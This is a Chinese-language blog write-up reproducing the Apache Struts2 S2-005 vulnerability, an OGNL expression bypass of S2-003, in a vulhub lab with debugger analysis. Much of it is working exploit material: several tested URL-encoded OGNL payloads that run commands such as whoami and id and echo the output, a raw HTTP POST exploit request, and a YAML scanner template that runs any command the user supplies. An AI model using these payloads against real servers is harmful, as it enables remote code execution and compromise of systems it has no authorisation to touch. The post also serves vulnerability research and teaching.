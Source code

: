 ```yaml
---
title: s2-005复现分析
date: 2021-08-10 21:05:49
categories:
- 代码审计
tags:
- struts2
- s2-005
# description: 描述
# comments: 是否可以评论（默认true：可评论）
cover: index.jpg
---
```


## 1.漏洞简介
官方描述：
https://cwiki.apache.org/confluence/display/WW/S2-005

s2-005是对s2-003的绕过，s2-003通过将#字符加入了黑名单来限制简单对象的执行，但是#字符可通过编码来绕过，比如：unicode编码（\u0023)或者8进制（\43）。
```java
('\u0023' + 'session\'user\'')(unused)=0wn3d

which will look as follows once URL encoded:

('\u0023'%20%2b%20'session\'user\'')(unused)=0wn3d
```


而后为了修复，官方增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等来修补。但是并没有完全解决该漏洞，ognl表达式依旧可以执行，通过ognl表达式将安全配置修改即可绕过再次导致了该漏洞。

### 影响范围：
Struts 2.0.0 - Struts 2.1.8.1

## 2.poc测试

网上复现大多推荐采用tomcat6，因为在高版本的tomcat中#.[]()等字符出现在高版本中可能会引发404错误。

这个可以通过编码来解决，不一定需要低版本tomct。

```shell
result=r"(#context[%22xwork.MethodAccessor.denyMethodExecution%22]=new java.lang.Boolean(false),#_memberAccess[%22allowStaticMethodAccess%22]= new java.lang.Boolean(true),@java.lang.Runtime@getRuntime().exec('open -a Calculator'))(meh)&z[(name)('meh')]=true"

# result=poc.replace('u0023','#')
# result=result.replace('u003d','=')
# result=result.replace('u005c','\\')
#
result = result.replace('#', '%23')
# result = result.replace('=', '\\75')
result = result.replace(' ', '%20')
result = result.replace('(', '%28')
result = result.replace('\'', '%27')
result = result.replace('"', '%22')
result = result.replace('\\', '%5C')
result = result.replace(')', '%29')
result = result.replace('[', '%5b')
result = result.replace(']', '%5d')

print(result)
```

以下是本人测试通过的poc。

vulhub环境：
tomcat版本： Apache Tomcat/8.5.14
jdk版本：1.8.0_121

无回显的命令执行：
```java
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22calc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

有回显得poc探测：
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

有回显的命令执行：
```java
(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27whoami%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
```


```java
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: IP:8080
Content-Length: 623

redirect:${`%`23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27id%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```


s2-003。
https://github.com/0linlin0/Struts2_Vul_Debug

tomcat版本： Tomcat 7.0.109
jdk版本：1.7


有回显的paylaod:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29%5C75true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43mycmd%5C75%5C%27whoami%5C%27%27%29%28d%29%29&%28h%29%28%28%27%5C43myret%5C75@java.lang.Runtime@getRuntime%28%29.exec%28%5C43mycmd%29%27%29%28d%29%29&%28i%29%28%28%27%5C43mydat%5C75new%5C40java.io.DataInputStream%28%5C43myret.getInputStream%28%29%29%27%29%28d%29%29&%28j%29%28%28%27%5C43myres%5C75new%5C40byte%5b51020%5d%27%29%28d%29%29&%28k%29%28%28%27%5C43mydat.readFully%28%5C43myres%29%27%29%28d%29%29&%28l%29%28%28%27%5C43mystr%5C75new%5C40java.lang.String%28%5C43myres%29%27%29%28d%29%29&%28m%29%28%28%27%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28n%29%28%28%27%5C43myout.getWriter%28%29.println%28%5C43mystr%29%27%29%28d%29%29
```

有回显的poc:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

## 3.漏洞分析跟踪

`docker-compose up -d`运行镜像会将docker里的war包拷贝到本地。

运行调试只需要将war包拷贝到tomcat的webapps，解压使用idea打开配置tomcat进行调试即可。
![](./1.png)

导入Libraries
![](./2.png)

### 断点位置

S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\DefaultActionInvocation.class#invoke()194行
![](./3.png)

`this.resultCode = interceptor.getInterceptor().intercept(this);`这段代码就是去执行拦截器.




S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\ognl\OgnlValueStack.class#setValue()128行

![](./4.png)

This.ognlUtil.setValue执行表达式。

## 4.psf exp编写

```java
name: poc-yaml-struts2-003-005-rce-attack
options:
  command: require
set:
  command1: urlencode(command)
rules:
  - method: GET
    path: ?(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27{{command1}}%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
    search: |
      (?ms)\r\n\r\n(?P<content>.*?)\n\0
    expression:
      response.status ==200
detail:
  author: h11ba1
  category: code-exec
  gevid:
  extend: "{{content}}"
  level: 4
  suffix: .action|.do|.jsp|.page|null|!.php
  type: postcrawl
```

运行效果如下：
![4.1](4.1.jpg)





